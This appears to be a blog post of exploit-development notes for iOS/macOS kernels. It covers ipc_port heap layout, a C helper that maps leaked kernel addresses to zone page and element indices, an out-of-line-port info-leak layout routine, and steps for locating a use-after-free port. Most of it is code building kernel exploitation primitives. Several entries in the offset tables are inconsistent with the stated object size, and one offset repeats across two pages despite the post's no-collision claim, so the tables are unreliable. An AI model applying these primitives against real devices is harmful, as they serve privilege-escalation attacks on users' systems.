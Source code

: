```yaml
---
layout: post
title:  "About ipc.ports zone"
date:   2018-08-20
categories: ios macos exploitation
---
```


# Basics
* The size of `struct ipc_port` is 168. 
* The size of kalloc is 4096 * (3 or 4).

# No offset collision
There is no offset collision in one kalloc, so if you can get the offset of a `ipc_port`, you can get the port index and page index.

```c
uint64_t PRTS_GetPageAndElementInfo(uint64_t kObjAddr)
{
    static uint32_t page0[25] = {
        0x000, 0x0A8, 0x150, 0x1F8, 0x2A0, 0x348, 0x3F0, 0x498, 0x540, 0x5E8,
        0x690, 0x738, 0x7E0, 0x888, 0x930, 0x9D8, 0xA80, 0xB28, 0xBD0, 0xC78,
        0xD20, 0xDC8, 0xE70, 0xF18, 0xFC0
    };
    
    static uint32_t page1[25] = {
        0x058, 0x110, 0x1C8, 0x280, 0x338, 0x3F0, 0x4A8, 0x560, 0x618, 0x6D0,
        0x788, 0x840, 0x8F8, 0x9B0, 0xA68, 0xB20, 0xBD8, 0xC90, 0xD48, 0xE00,
        0xEB8, 0xE30, 0xED8, 0xF80, 0xFFF
    };
    
    static uint32_t page2[25] = {
        0x028, 0x0D0, 0x178, 0x220, 0x2C8, 0x370, 0x418, 0x4C0, 0x568, 0x610,
        0x6B8, 0x760, 0x808, 0x8B0, 0x958, 0xA00, 0xAA8, 0xB50, 0xBF8, 0xCA0,
        0xD48, 0xDF0, 0xE98, 0xF40, 0xFFF
    };
    
    static uint32_t* pages[] = {
        page0, page1, page2
    };
    
    uint32_t offset = kObjAddr & 0xFFF;
    
    int pgCnt = sizeof(pages) / sizeof(uint32_t *);
    int itemCnt = sizeof(page0) / sizeof(uint32_t);
    for (int pgIdx = 0; pgIdx < pgCnt; ++pgIdx) {
        for (int objIdx = 0; objIdx < itemCnt; ++objIdx) {
            if (pages[pgIdx][objIdx] == offset) {
                return ((uint64_t)pgIdx << 32) | objIdx;
            }
        }
    }
    
    return -1;
}
```

# Info leak by ool ports
Should pay attention to port layout.

```c
void PRTS_LayoutPorts(mach_port_t *payloadObjs, int portCnt, mach_port_t infoLeakPort)
{
    static const int step = (PRTS_PAGE_SIZE / PRTS_PORT_SIZE) + 1;
    static const int ctxOffset = (PRTS_PORT_CTX_OFFSET / 8);
    
    // page: 1
    for (int idx = 0; idx < portCnt; idx += step) {
        payloadObjs[idx + ctxOffset] = infoLeakPort;
    }
    
    // page: 2
    payloadObjs[10] = infoLeakPort;
    for (int idx = 13; idx < portCnt; idx += step) {
        payloadObjs[idx + ctxOffset] = infoLeakPort;
    }
    
    // page: 3
    payloadObjs[2] = infoLeakPort;
    for (int idx = 5; idx < portCnt; idx += step) {
        payloadObjs[idx + ctxOffset] = infoLeakPort;
    }
}
```

# How to get UaF port address
* By filling the gap, you can get 2 kalloc with continuous address.
* Place the UaF port in the 1st kalloc, place the info leak port in the 2nd kalloc.
* With ool ports, you can get the address of info leak port.
* With the address of info leak port, you can call `PRTS_GetPageAndElementInfo`.
* With the info of 2nd kalloc, you can get the address range of 1st kalloc.
* If you can get the offset of UaF port, you can get the info of 1st kalloc.
* With GC, you can control 3 pages.
